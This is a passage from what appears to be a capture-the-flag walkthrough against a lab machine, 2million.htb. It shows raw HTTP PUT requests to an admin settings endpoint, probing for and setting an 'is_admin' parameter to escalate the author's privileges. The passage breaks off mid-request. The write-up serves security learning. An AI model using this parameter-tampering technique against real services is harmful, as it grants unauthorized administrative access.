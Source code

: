 > I add the `email` parameter to the request body:

```http

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Content-Type: application/json
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 26

{

"email": "a@a.com"

}

```
> Response:

```http

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 18:52:59 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 59

{"status":"danger","message":"Missing parameter: is_admin"}

```
> `missing parameter: is_admin`

> I add the `is_admin` parameter and immediately enter the value `1` as an analogue for **"true"** (`0` for **"false"**):

```http

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Content-Type: application/json
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 42

{

"email": "a@a.com",
```